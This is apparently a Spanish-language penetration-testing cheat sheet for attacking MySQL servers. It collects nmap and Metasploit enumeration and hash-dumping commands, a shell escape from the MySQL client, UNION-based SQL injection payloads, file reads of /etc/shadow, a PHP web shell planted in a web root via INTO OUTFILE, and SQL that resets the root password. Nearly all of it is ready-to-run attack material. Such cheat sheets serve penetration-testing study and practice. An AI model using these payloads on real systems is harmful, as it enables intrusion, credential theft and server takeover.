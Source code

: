 Enumeración

```bash
# Nmap

nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>

# Metasploit

use auxiliary/scanner/mysql/mysql_schemadump
use auxiliary/scanner/mysql/mysql_writable_dirs
use auxiliary/scanner/mysql/mysql_file_enum
use auxiliary/scanner/mysql/mysql_hashdump
use auxiliary/scanner/mysql/mysql_login
```

Comandos MySQL

```bash
show databases;
use <database>;
connect <database>;
show tables;
describe <table_name>;
show columns from <table>;

select version(); #version
select @@version(); #version
select user(); #User
select database(); #database name

# Obtener shell
\\! sh

#Basic MySQLi
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

#Read & Write
## Yo need FILE privilege to read & write to files.
select load_file('/var/lib/mysql-files/key.txt'); #Read file
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

#Try to change MySQL root password
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
FLUSH PRIVILEGES;
quit;

# Mysql client
help
show databases;
use <DB_NAME>;
select count(*) from <TABLE_NAME>;
select load_file("/etc/shadow");
```
